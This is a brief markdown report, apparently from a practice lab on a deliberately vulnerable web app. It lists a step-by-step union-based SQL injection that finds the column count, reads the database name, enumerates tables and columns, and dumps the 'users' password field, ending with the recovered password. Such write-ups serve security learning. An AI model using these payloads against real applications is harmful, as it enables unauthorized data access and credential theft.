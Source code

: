# Report

## SQL Injection Attempts

1. `Iron Man' order by 7-- -`
   - Error encountered at: `Iron Man' order by 8-- -`

2. `Iron Man' union select 1,2,3,4,5,6,7-- -`

3. `Iron Man' union select 1,2,3,4,database(),6,7-- -`

4. `Iron Man' union select 1,2,3,4,(table_name),6,7 from information_schema.table_constraints-- -`

5. `Iron Man' union select 1,2,3,4,(column_name),6,7 from information_schema.columns where table_name='users'-- -`

6. `Iron Man' union select 1,2,3,4,(password),6,7 from users-- -`

Password: `bug`
